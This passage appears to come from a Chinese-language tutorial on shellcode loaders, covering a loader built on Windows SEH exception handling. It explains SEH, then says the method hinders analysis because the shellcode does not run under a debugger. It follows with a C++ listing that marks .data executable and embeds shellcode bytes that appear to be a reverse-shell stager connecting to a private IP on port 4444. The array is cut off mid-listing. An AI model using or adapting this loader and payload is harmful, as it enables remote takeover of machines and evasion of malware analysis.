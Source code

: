 ```cpp
    
    // 调用 UuidLoader 函数
    UuidLoader();
}
```



# 9.基于SEH异常处理

## 什么是SEH

SEH（Structured Exception Handling，结构化异常处理）是Windows操作系统中的一种错误处理和异常处理机制。SEH提供了一种强大、灵活且通用的方法来处理异常，它使得开发者能够为应用程序中发生的运行时错误和异常编写自定义的处理代码

SEH的工作原理是在程序中建立一个异常处理函数链。每个异常处理函数都负责处理特定的异常。当程序运行时遇到异常，操作系统会沿着异常处理函数链寻找适当的处理函数。如果找到合适的异常处理函数，系统将调用该函数并处理异常。如果没有找到合适的处理函数，系统将终止程序

![img](shellcode加载器/assets%2F-M3GuIlaAXU8NbJTCRei%2F-M7u7TrzN0Wym0qmjjSg%2F-M7u9bFpgHXC3vjN9d5g%2Fimage.png)



在C++中，可以使用`_try`、`_except`和`_finally`关键字来实现SEH异常处理。`_try`块包含可能引发异常的代码；`_except`块包含处理异常的代码；而`_finally`块包含在任何情况下都应执行的代码，无论是否发生异常	

SEH的一个重要特点是它与语言无关，因此可以在C、C++等语言中使用。然而，C++提供了另一种异常处理机制：C++异常处理（`try`、`catch`和`throw`关键字）。C++异常处理机制更符合C++语言的面向对象特性，通常在C++程序中更为常用。然而，在某些情况下，SEH仍然具有独特的优势，例如在处理特定的Windows异常或与C代码交互时



## 实现代码

这种方式加载shellcode的一个好处就是在调试器环境下和正常运行环境下表现不同。当程序在调试器中运行时，调试器会接管异常处理，从而使得程序在除零异常处停止，而不会执行shellcode。这使得恶意代码的执行在调试环境下被阻止，为分析和调试带来困难

```cpp
#include<Windows.h>
#include<stdio.h>
#pragma comment(linker, "/section:.data,RWE")

// 存储要执行的shellcode
char shellcode[] = 
"\xfc\xe8\x8f\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52"
"\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x31\xff\x0f\xb7"
"\x4a\x26\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d"
"\x01\xc7\x49\x75\xef\x52\x57\x8b\x52\x10\x8b\x42\x3c\x01"
"\xd0\x8b\x40\x78\x85\xc0\x74\x4c\x01\xd0\x8b\x48\x18\x8b"
"\x58\x20\x01\xd3\x50\x85\xc9\x74\x3c\x49\x31\xff\x8b\x34"
"\x8b\x01\xd6\x31\xc0\xc1\xcf\x0d\xac\x01\xc7\x38\xe0\x75"
"\xf4\x03\x7d\xf8\x3b\x7d\x24\x75\xe0\x58\x8b\x58\x24\x01"
"\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01"
"\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x58"
"\x5f\x5a\x8b\x12\xe9\x80\xff\xff\xff\x5d\x68\x33\x32\x00"
"\x00\x68\x77\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\x89\xe8"
"\xff\xd0\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68\x29\x80"
"\x6b\x00\xff\xd5\x6a\x0a\x68\xc0\xa8\x2f\x9b\x68\x02\x00"
"\x11\x5c\x89\xe6\x50\x50\x50\x50\x40\x50\x40\x50\x68\xea"
"\x0f\xdf\xe0\xff\xd5\x97\x6a\x10\x56\x57\x68\x99\xa5\x74"
"\x61\xff\xd5\x85\xc0\x74\x0a\xff\x4e\x08\x75\xec\xe8\x67"
"\x00\x00\x00\x6a\x00\x6a\x04\x56\x57\x68\x02\xd9\xc8\x5f"
"\xff\xd5\x83\xf8\x00\x7e\x36\x8b\x36\x6a\x40\x68\x00\x10"
"\x00\x00\x56\x6a\x00\x68\x58\xa4\x53\xe5\xff\xd5\x93\x53"
"\x6a\x00\x56\x53\x57\x68\x02\xd9\xc8\x5f\xff\xd5\x83\xf8"
"\x00\x7d\x28\x58\x68\x00\x40\x00\x00\x6a\x00\x50\x68\x0b"
"\x2f\x0f\x30\xff\xd5\x57\x68\x75\x6e\x4d\x61\xff\xd5\x5e"
"\x5e\xff\x0c\x24\x0f\x85\x70\xff\xff\xff\xe9\x9b\xff\xff"
```